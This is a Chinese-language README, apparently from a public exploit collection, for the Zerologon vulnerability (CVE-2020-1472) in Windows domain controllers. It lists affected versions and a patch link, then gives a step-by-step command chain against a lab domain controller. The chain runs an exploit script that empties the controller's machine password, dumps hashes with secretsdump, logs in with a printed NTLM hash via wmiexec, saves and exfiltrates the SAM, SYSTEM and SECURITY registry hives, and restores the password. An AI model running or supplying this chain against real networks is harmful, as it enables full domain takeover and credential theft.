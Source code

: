 ## CVE-2020-1472

#### 描述

攻击者使用Netlogon远程协议（MS-NRPC）建立与域控制器的易受攻击的Netlogon安全通道连接时，将存在特权提升漏洞。攻击者可以利用漏洞进行远程修改密码等操作

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| :------------------ | :--------------- | ------- | ------ | ------------------ |
| Windows Server 2008 | x64              | R2      | SP1    | &#10004; |
| Windows Server 2012 |                  |         |        |                    |
| Windows Server 2012 |                  | R2      |        |                    |
| Windows Server 2016 |                  |         |        |                    |
| Windows Server 2019 |                  |         |        |                    |
| Windows Server      |                  | 1903    |        |                    |
| Windows Server      |                  | 1909    |        |                    |
| Windows Server      |                  | 2004    |        |                    |
| Windows Server      |                  | 20H2    |        |                    |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1472
```

#### 利用方式

> 注意：EXP脚本会重置域控机器的密码！！！不要瞎鸡儿乱用！！！！！！！！

测试机器Windows Server 2008 R2 SP1 X64 ，并且设置环境为域控机器

![image-20201002201920794](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2020-1472_dc-server.png)

由上图可知：

- 域为->ascotbe.com
- 计算机名为->dc
- 域控ip->192.168.183.171

使用前环境配置，需要Python3.7+的版本，如果之前有安装过`impacket`的python包的话（比如kali）需要卸载了在重新安装`0.9.21`这个版本的包，快捷语句`python3 -m pip install git+https://github.com/SecureAuthCorp/impacket`，下面是通用方法

```
python3 -m pip install -r Kernelhub.txt
#如果嫌弃下载慢项目上有下载好的解压后即可用
git clone --depth=1 https://github.com/SecureAuthCorp/impacket
```

> 扫描脚本

该脚本用于测试机器是否存在漏洞

```
#Usage: CVE-2020-1472_Scan.py <dc-name> <dc-ip>
python3 CVE-2020-1472_Scan.py dc 192.168.183.171
```

![image-20201002203037104](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2020-1472_scan.png)

> 利用脚本

该脚本会使用后会把密码重置为空！！乱用容易对照成损失！！

```
#Usage: CVE-2020-1472_Exploit.py <dc-name> <dc-ip>
python3 CVE-2020-1472_Exploit.py dc 192.168.183.171
```

![image-20201002204223509](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2020-1472_exp.png)

接着进入下载好的`impacket`项目，使用空密码登录

```
cd impacket/examples/
#Usage: secretsdump.py <dc>/<dc-name>\$@<dc-ip>
python3 secretsdump.py ascotbe.com/dc\$@192.168.183.171 -no-pass
```

![image-20201002203751057](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2020-1472_secretsdump.png)

接着利用hash进行登录

```
#Usage: wmiexec.py -hashes <user-hash> <dc>/<user-name>@<dc-ip>
python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:45280efa2300182b4f7fdc2cee182149  ascotbe.com/administrator@192.168.183.171
```

![image-20201002204817764](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2020-1472_wmiexec.png)

> 还原密码

保存密码后下载到本地，接着删除域控上的文件

```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del system.save
del sam.save
del security.save
```

![image-20201002205958192](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2020-1472_hash.png)

接着进行解密

```
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

![image-20201002210258903](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2020-1472_decrypt_hash.png)

可以看到这是之前修改之前的密码，接着回到桌面使用脚本恢复密码

```
#Usage: CVE-2020-1472_RestoreOriginalPassword.py <dc-name> <dc-ip> <dc-original-hash>
python3 CVE-2020-1472_RestoreOriginalPassword.py dc 192.168.183.171 d4ac5a73fd3f13dfd9d6de036a9e99a2
```

![image-20201002212122966](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2020-1472_restore_original_password.png)

#### 分析文章
- https://xz.aliyun.com/t/8367
- https://www.freebuf.com/articles/system/249860.html
- https://www.freebuf.com/vuls/249813.html
- https://cert.360.cn/report/detail?id=2e904ef9ac96834a3dd7fc058cea4fe5

#### 项目来源

- 扫描脚本:[SecuraBV](https://github.com/SecuraBV/CVE-2020-1472)
- 利用脚本:[dirkjanm](https://github.com/dirkjanm/CVE-2020-1472)
- 恢复脚本:[risksense](https://github.com/risksense/zerologon)